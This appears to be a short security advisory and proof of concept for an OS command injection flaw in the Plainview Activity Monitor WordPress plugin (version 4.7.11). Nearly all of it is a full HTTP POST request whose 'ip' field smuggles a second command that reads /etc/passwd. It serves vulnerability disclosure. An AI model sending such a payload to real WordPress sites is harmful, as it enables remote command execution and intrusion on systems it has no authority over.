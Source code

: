 # RCE with [```Plainview Activity Monitor```](https://fr.wordpress.org/plugins/plainview-activity-monitor/) WordPress plugin  
* Affected: ```Plainview Activity Monitor``` WordPress plugin.
* Version: `4.7.11` and possibly prior
* Author: [Lydéric Lefebvre](https://www.linkedin.com/in/lydericlefebvre/)

## Index

| Title        | Description   |
| ------------- |:-------------|
| [Description](#description)  | Description |
| [PoC](#poc) | PoC |

## Description

Plainview Activity Monitor is vulnerable to OS commanding which allows an attacker to remotely execute commands on underlying system. ```ip``` parameter in ```page=plainview_activity_monitor&tab=activity_tools``` is vulnerable.

![oscommanding](https://image.noelshack.com/fichiers/2018/34/6/1535228244-oscommand.png)

## PoC
```
POST /wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://localhost:8000/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools
Content-Type: multipart/form-data; boundary=---------------------------13707449992054116824594351796
Content-Length: 311
Cookie: wordpress_70490311fe7c84acda8886406a6d884b=aas%7C1535400075%7CNJ8xAHSGtDKoNgc8tTpSZA6Dn6INW6PkzdG1IVzHX9Z%7C422290d1e6d712e3db5efb9ab4a9aa3df0631e20d5e0dce34ec84ec6f70766c8; PHPSESSID=18d2c15b8f5755104632ec1cc65c56e1; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_70490311fe7c84acda8886406a6d884b=aas%7C1535400075%7CNJ8xAHSGtDKoNgc8tTpSZA6Dn6INW6PkzdG1IVzHX9Z%7C0d8cef0facff651e3b0b7790b6c3f84dad36051b8378487acbe5bf03ebef52af; wp-settings-1=deleted; wp-settings-time-1=1535227275
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------13707449992054116824594351796
Content-Disposition: form-data; name="ip"

google.fr|cat /etc/passwd
-----------------------------13707449992054116824594351796
Content-Disposition: form-data; name="lookup"

Lookup
-----------------------------13707449992054116824594351796--
```
